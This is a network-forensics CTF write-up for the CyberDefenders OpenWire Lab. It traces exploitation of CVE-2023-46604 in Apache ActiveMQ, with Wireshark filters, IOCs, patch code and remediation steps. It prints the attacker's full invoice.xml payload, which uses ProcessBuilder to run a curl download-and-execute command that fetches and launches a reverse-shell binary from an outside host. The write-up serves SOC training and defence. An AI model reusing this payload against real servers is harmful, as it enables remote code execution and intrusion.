










# OpenWire Lab — CTF Writeup

* **Platform:** CyberDefenders  
* **Challenge:** OpenWire Lab  
* **Category:** Network Forensics / Java Deserialization  
* **Difficulty:** Medium  
* **Analyst:** Mahmoud Hussien 
* **Tool:** Wireshark  
* **Vulnerability:** CVE-2023-46604 (CVSS 9.8 — Critical)  
* **Incident Date:** December 12, 2023

---

## Scenario Overview

During a tier-2 SOC shift, a tier-1 analyst escalated an alert about a public-facing server (`134.209.197.3`) making outbound connections to multiple suspicious IPs. The server was isolated immediately and a PCAP was obtained from the NSM utility. Analysis confirmed exploitation of **CVE-2023-46604** — a critical Remote Code Execution vulnerability in Apache ActiveMQ caused by insecure Java deserialization over the OpenWire protocol, ultimately resulting in a reverse shell being dropped and executed on the victim server.

---

## Attack Chain Overview

```
[1] Attacker → Victim (134.209.197.3:61616)
    └─ Exploit packet targeting CVE-2023-46604
    └─ Forces JVM to load ClassPathXmlApplicationContext

[2] Victim → Primary C2 (146.190.21.92:8000)
    └─ HTTP GET /invoice.xml
    └─ Java/11.0.21 User-Agent

[3] Primary C2 → Victim
    └─ Delivers invoice.xml (816 bytes)
    └─ Instantiates: java.lang.ProcessBuilder

[4] Victim → Secondary C2 (128.199.52.72)
    └─ curl downloads 'docker' binary → /tmp/docker
    └─ chmod +x /tmp/docker
    └─ ./tmp/docker (reverse shell executed)
```

---

## Question 1 — What is the IP of the C2 server that communicated with the victim?

### Investigation

**Wireshark Filter:**

```
http.request.method == "GET" || http.response
```

After the exploit packet triggered the vulnerability, the victim server's JVM immediately initiated an outbound HTTP GET request to fetch the malicious XML configuration file. Reviewing the HTTP transaction:

```
GET /invoice.xml HTTP/1.1
Host: 146.190.21.92:8000
User-Agent: Java/11.0.21
```

The `User-Agent: Java/11.0.21` confirms this was an automated request made by the Java runtime — not a human browser — directly triggered by the deserialization exploit.

### Answer

```
146.190.21.92
```


---

## Question 2 — What is the port number of the service the adversary exploited?

### Investigation

**Wireshark Filter:**

```
tcp.port == 61616
```

Filtering for traffic on port 61616 confirmed that the attacker initiated raw TCP connections targeting this specific port on the victim server. Port `61616` is the default port for Apache ActiveMQ's **OpenWire protocol** — the binary messaging protocol used for client-broker communication.

### Answer

```
61616
```




---

## Question 3 — What is the name of the vulnerable service?

### Investigation

The service running on port 61616 was identified by:

1. The port number itself (61616 = Apache ActiveMQ default)
2. The `User-Agent: Java/11.0.21` in the victim's outbound HTTP request — confirming a Java-based messaging service
3. The CVE identifier (CVE-2023-46604) exclusively affecting Apache ActiveMQ

### Answer

```
Apache ActiveMQ
```



---

## Question 4 — What is the IP of the second C2 server?

### Investigation

**Wireshark Filter:**

```
ip.addr == 128.199.52.72
```

Following the TCP stream of the `invoice.xml` HTTP response, the embedded XML payload contained a bash command that instructed the victim's JVM to contact a second infrastructure host:

```xml
<value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
```

This second server hosted the actual malware binary. The PCAP confirmed outbound TCP handshakes and file transfer from the victim to `128.199.52.72` immediately after `invoice.xml` was processed.

### Answer

```
128.199.52.72
```


---

## Question 5 — What is the name of the reverse shell executable dropped on the server?

### Investigation

Extracted directly from the malicious command embedded in `invoice.xml`:

```bash
curl -s -o /tmp/docker http://128.199.52.72/docker
chmod +x /tmp/docker
./tmp/docker
```

The binary was named `docker` — deliberately chosen to masquerade as the legitimate Docker container runtime tool, making it visually inconspicuous to administrators casually reviewing running processes or the `/tmp` directory.

**Full drop path:** `/tmp/docker`

### Answer

```
docker
```


---

## Question 6 — What Java class was invoked by the XML file to run the exploit?

### Investigation

Following the TCP stream of the HTTP response for `/invoice.xml` reveals the full XML payload delivered by the C2:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
       http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">

  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

**How the exploit works:**

1. The Spring XML bean definition instantiates `java.lang.ProcessBuilder` as a Spring bean
2. The `init-method="start"` attribute calls `ProcessBuilder.start()` automatically when the bean is initialized
3. The constructor arguments pass `bash -c <command>` — spawning a shell that downloads and executes the malware

`java.lang.ProcessBuilder` is a legitimate Java class for spawning OS processes — the attacker abused the Spring Framework's bean instantiation to call it with malicious arguments.

### Answer

```
java.lang.ProcessBuilder
```


---

## Question 7 — What is the CVE identifier for this vulnerability?

### Investigation

The vulnerability was identified through:

- **Port:** 61616 (Apache ActiveMQ OpenWire)
- **Attack pattern:** Remote XML deserialization forcing `ClassPathXmlApplicationContext` instantiation
- **Java deserialization RCE** via OpenWire protocol unmarshalling

This matches the exact profile of **CVE-2023-46604** — a critical (CVSS 9.8) Apache ActiveMQ vulnerability publicly disclosed in October 2023, actively exploited in the wild within days of disclosure.

**Affected versions:**
- Apache ActiveMQ 5.15.x < 5.15.16
- Apache ActiveMQ 5.16.x < 5.16.7
- Apache ActiveMQ 5.17.x < 5.17.6
- Apache ActiveMQ 5.18.x < 5.18.3

### Answer

```
CVE-2023-46604
```


---

## Question 8 — In which Java class and method was the validation step added?

### Investigation

The Apache ActiveMQ security patch (GitHub PR #1098) addressed the vulnerability by adding a type validation step in the OpenWire protocol's unmarshalling code.

**Vulnerable file:**
```
activemq-client/src/main/java/org/apache/activemq/openwire/v1/BaseDataStreamMarshaller.java
```

**Vulnerable method:** `createThrowable`

**Root cause:** The original code used `Class.forName()` to instantiate classes from the wire stream without verifying the loaded class was actually a `Throwable` subclass:

```java
// VULNERABLE — no type validation
Class clazz = Class.forName(className, false, BaseDataStreamMarshaller.class.getClassLoader());
Constructor constructor = clazz.getConstructor(new Class[]{String.class});
return (Throwable) constructor.newInstance(new Object[]{message});
```

**The patch added:**

```java
// PATCHED — validates class is a Throwable before instantiation
Class clazz = Class.forName(className, false, BaseDataStreamMarshaller.class.getClassLoader());
OpenWireUtil.validateIsThrowable(clazz);  // ← ADDED
Constructor constructor = clazz.getConstructor(new Class[]{String.class});
return (Throwable) constructor.newInstance(new Object[]{message});
```

Where `validateIsThrowable` enforces:

```java
public static void validateIsThrowable(Class<?> clazz) {
    if (!Throwable.class.isAssignableFrom(clazz)) {
        throw new IllegalArgumentException("Class " + clazz + " is not assignable to Throwable");
    }
}
```

This single check ensures only legitimate exception classes (subclasses of `Throwable`) can be instantiated — blocking the attacker's ability to load `ClassPathXmlApplicationContext` or `ProcessBuilder`.

### Answer

```
BaseDataStreamMarshaller.createThrowable
```




---

## invoice.xml — Full Payload Analysis

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
         http://www.springframework.org/schema/beans
         http://www.springframework.org/schema/beans/spring-beans.xsd">

  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>curl -s -o /tmp/docker http://128.199.52.72/docker;
               chmod +x /tmp/docker;
               ./tmp/docker</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

| Component | Value | Purpose |
|---|---|---|
| `class="java.lang.ProcessBuilder"` | Java OS process spawner | The abused Java class |
| `init-method="start"` | Calls `ProcessBuilder.start()` | Auto-executes on bean load |
| `bash -c` | Shell interpreter | Runs arbitrary commands |
| `curl -s -o /tmp/docker` | Silent download | Fetches malware binary |
| `chmod +x /tmp/docker` | Make executable | Prepares binary for execution |
| `./tmp/docker` | Execute binary | Launches reverse shell |

---

## Full Attack Timeline

| Time (UTC) | Source | Destination | Event |
|---|---|---|---|
| 2023-12-12 ~13:38 | Attacker | `134.209.197.3:61616` | CVE-2023-46604 exploit packet sent |
| 2023-12-12 13:38:28 | `134.209.197.3` | `146.190.21.92:8000` | HTTP GET `/invoice.xml` (Java/11.0.21) |
| 2023-12-12 13:38:28 | `146.190.21.92` | `134.209.197.3` | `invoice.xml` delivered (816 bytes, HTTP 200) |
| Sequential | `134.209.197.3` | `128.199.52.72` | `curl` downloads `docker` → `/tmp/docker` |
| Sequential | `134.209.197.3` | Local filesystem | `chmod +x /tmp/docker` executed |
| Sequential | `134.209.197.3` | Attacker | `./tmp/docker` — reverse shell established |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| IP | `134.209.197.3` | Victim server (Apache ActiveMQ) |
| IP | `146.190.21.92` | Primary C2 — hosts `invoice.xml` |
| IP | `128.199.52.72` | Secondary C2 — hosts `docker` binary |
| Port | `61616/TCP` | Apache ActiveMQ OpenWire (exploited) |
| Port | `8000/TCP` | C2 Python SimpleHTTP file server |
| URL | `http://146.190.21.92:8000/invoice.xml` | Malicious XML deserialization payload |
| URL | `http://128.199.52.72/docker` | Reverse shell binary download URL |
| File | `/tmp/docker` | Dropped malware (masquerades as Docker) |
| CVE | `CVE-2023-46604` | Apache ActiveMQ RCE via deserialization |
| User-Agent | `Java/11.0.21` | JVM making C2 request |
| Server | `SimpleHTTP/0.6 Python/3.8.10` | Attacker's file hosting server |

---

## Key Wireshark Filters Reference

```
-- Identify initial exploit traffic
tcp.port == 61616

-- Find C2 HTTP transactions
http.request.method == "GET" || http.response

-- Follow invoice.xml stream
ip.addr == 146.190.21.92

-- Track secondary payload download
ip.addr == 128.199.52.72

-- All attacker-related HTTP traffic
http && (ip.addr == 146.190.21.92 || ip.addr == 128.199.52.72)
```

---

## Vulnerability Deep-Dive: CVE-2023-46604

### Root Cause

The OpenWire protocol's `BaseDataStreamMarshaller` class uses Java reflection to instantiate classes from the wire stream:

```java
// No validation — any class in the classpath can be loaded
Class clazz = Class.forName(className, false, loader);
```

An attacker can specify **any class name** in the exploit packet — not just `Throwable` subclasses. The attacker chose `ClassPathXmlApplicationContext` (Spring Framework) which:
1. Accepts a URL as its constructor argument
2. Fetches and parses the XML file from that URL
3. Instantiates all Spring beans defined in the XML — including `ProcessBuilder`

### The Fix

```java
// Added by Apache — blocks non-Throwable classes
OpenWireUtil.validateIsThrowable(clazz);
```

This one-line check breaks the entire exploit chain by ensuring only legitimate exception classes can be instantiated from the wire.

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1190 | Exploit Public-Facing Application (CVE-2023-46604) |
| Execution | T1059.004 | Unix Shell (`bash -c`) |
| Execution | T1203 | Exploitation for Client Execution (Java deserialization) |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name (`docker`) |
| Command & Control | T1071.001 | Web Protocols (HTTP to C2) |
| Command & Control | T1105 | Ingress Tool Transfer (`curl` downloads binary) |

---

## Remediation Recommendations

1. **Patch Apache ActiveMQ immediately:**
   - 5.15.x → upgrade to **5.15.16+**
   - 5.16.x → upgrade to **5.16.7+**
   - 5.17.x → upgrade to **5.17.6+**
   - 5.18.x → upgrade to **5.18.3+**

2. **Mount `/tmp` with `noexec`** — Prevents executed binaries dropped in `/tmp` from running, blocking a critical step in this attack chain.

3. **Block outbound HTTP from application servers** — The JVM should never initiate outbound HTTP connections to arbitrary external IPs. Egress filtering with an explicit allowlist would have stopped this attack at Phase 2.

4. **Run ActiveMQ as a non-root user** — Limiting the service account's privileges restricts what a successful exploit can do on the host.

5. **Firewall port 61616** — Restrict ActiveMQ's OpenWire port to only trusted broker-to-broker or client IP ranges. This port should never be exposed to the internet.

6. **Block known C2 IPs** at perimeter:
   - `146.190.21.92`
   - `128.199.52.72`

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: OpenWire Lab*